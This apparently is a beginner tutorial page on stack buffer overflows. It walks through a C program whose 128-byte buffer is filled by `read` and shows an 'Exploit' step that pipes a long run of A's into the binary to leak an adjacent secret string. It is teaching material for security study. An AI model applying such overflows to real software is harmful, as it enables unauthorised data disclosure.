 # Stack 0verflow

### AIM:
To print the secret.

### Example:

<script src="https://gist.github.com/n41n4/496691de46d5202aec5585a722763ffa.js?file=snippet.c"></script>

### Stack

```
+--------------------+
| FUNCTION ARGUMENTS |
+====================+
| RETURN (RET)       |
+--------------------+
| SECRET[]           |
+--------------------+
| KEY[128]           |
+--------------------+ 
```

### Analysis
Execution flow of above example
1. A secret variable is created with some secret value.
2. Then a buffer is initialized with the capacity of 128.
3. User input will be stored in buffer variable using `read` function.
4. Finally User input will be echoed back with welcome using printf.


```bash
┌─[inc0gn1t0@inc0gn1t0-VirtualBox]─[~/Stack0verflow]
└──╼ $./snippet 
Guest
Welcome Guest
```

### Exploit:


```bash

┌─[inc0gn1t0@inc0gn1t0-VirtualBox]─[~/Documents/myUploader/stack]
└──╼ $echo "AAAAAAAAAAAAAAAA...........AAAAAAAAA" | ./secret 
Welcome AAAAAAAAAAAAAAAA...........AAAAAAAAASup3r_S3cr37_S7r1n6

```

### Explanation
Here the culprit is `read` function.In this context `read` is used to take input from user.


### Practice
- [Task](Practice-1.html)
